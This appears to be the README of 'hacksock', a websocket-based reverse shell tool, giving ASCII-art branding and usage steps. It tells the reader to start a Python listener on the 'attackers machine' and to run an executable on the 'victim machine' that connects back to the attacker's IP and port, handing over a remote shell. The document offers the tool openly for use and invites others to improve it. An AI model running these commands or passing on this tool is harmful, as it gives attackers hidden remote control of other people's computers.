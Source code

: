 ```
  _                _                   _        _ 
 | |              | |                 | |      | |
 | |__   __ _  ___| | _____  ___   ___| | _____| |_ 
 | '_ \ / _` |/ __| |/ / __|/ _ \ / __| |/ / _ \ __|
 | | | | (_| | (__|   <\__ \ (_) | (__|   <  __/ |_ 
 |_| |_|\__,_|\___|_|\_\___/\___/ \___|_|\_\___|\__|
```

A websocket based reverse shell tool for the less security minded.

# To use:

On the attackers machine use the python server

`python3 hacksock-srv.py --host [Listening IP] --port [Listening Port]`

On the victim machine, either alter the source so no arguments are required or run the below:

`hacksocktls.exe [attackers IP] [port]`

# Bugs:

- Code was written in a field therefore full of bugs
- The server accepts multiple connections however there is no way to switch at present. Functionality coming soon.
- Feel free to use and improve. #fixmycode
